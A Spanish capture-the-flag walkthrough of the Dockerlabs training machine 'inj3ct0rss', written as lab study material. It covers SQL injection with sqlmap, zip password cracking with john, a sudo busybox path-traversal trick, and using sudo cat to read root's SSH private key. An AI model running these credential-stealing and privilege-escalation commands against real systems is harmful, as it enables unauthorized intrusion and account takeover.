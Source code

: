 # inj3ct0rss

Maquina nivel medio de [Dockerlabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dockerlabs](./images/inj3ct0rss/imagenes/dockerlabs.png)

## INTRUSION

Comenzamos entrando por el navegador a la ip `172.17.0.2`

**PUERTO 80:**

![80](./images/inj3ct0rss/imagenes/80.png)

Al parecer es una web para practicar hacking, de todo lo que dice, lo interesante es "Desafíos de SQL Injection", ya que hay un panel de login.

Para la inyeccion sql podemos usar sqlmap guardandonos la peticion al iniciar sesion. Para hacerlo capturamos y guardando la peticion con burpsuite, para guardarla damos click derecho en la peticion y tocamos donde dice `Copy to file` y lo guardamos con el nombre que queramos.

Luego ejecutamos el siguiente comando:

```css
sqlmap -r request --dump -batch --level 5 -risk 3
```

Sqlmap nos encuentra varios usuarios y contraseñas, pero lo unico que nos interesa es la password `no_mirar_en_este_directorio`, por lo que entramos del navegador y vemos un zip el cual nos descargamos.

Al intentar descomprimirlo nos pide una contraseña, entonces tendremos que sacar el hash con `zip2john` y luego intentar crackear la contraseña usando `john`. Luego de capturar el hash ejecutaremos el siguiente comando para crackear la contraseña:

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE (2024-08-18 20:10) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si teniendo la contraseña vamos a descomprimir el zip y nos deja un archivo que se llama `confidencial.txt`, lo leemos y vemos lo siguiente:

```css

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:-------------

```

Asi que teniendo el usuario y contraseña nos conectamos mediante ssh.

## ESCALADA DE PRIVILEGIOS

### RALF

Siendo el usuario ralf vemos que podemos ejecutar con `sudo -l` y vemos lo siguiente:

```ruby
ralf@b09cee7bd1c1:~$ sudo -l
Matching Defaults entries for ralf on b09cee7bd1c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on b09cee7bd1c1:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
ralf@b09cee7bd1c1:~$ 

```

Para poder escalar privilegios me fijé en [GTFOBins](https://gtfobins.github.io/) pero nuestro caso es distinto, entonces tendremos que hacer lo siguiente:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/ls /home/capa
```

esto nos muestra que hay un archivo llamado `passwd.txt` por lo que ahora lo leeremos ejecutando:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/cat /home/capa/passwd.txt
```

Habiendo hecho esto ya tendremos la contraseña del usuario capa.

### CAPA

Siendo capa ejecutamos `sudo -l` y vemos que podemos ejecutar como root el binario cat. Entonces luego de fijarme nuevamente en [GTFOBins](https://gtfobins.github.io/), veo que puedo leer archivos del sistema, entonces haremos lo siguiente:

```css
LFILE=/root/.ssh/id_rsa
```

y lo leemos con:

```css
sudo cat "$LFILE"
```

Esto nos dará la clave privada del ssh del usuario root, ahora nos la guardaremos en nuestra maquina local como `id_rsa` y le damos permisos con `chmod 600`, luego ponemos `ssh -i id_rsa root@172.17.0.2` y listo, somos root.

![root](./images/inj3ct0rss/imagenes/root.png)

Esta maquina tiene flags. Chau....
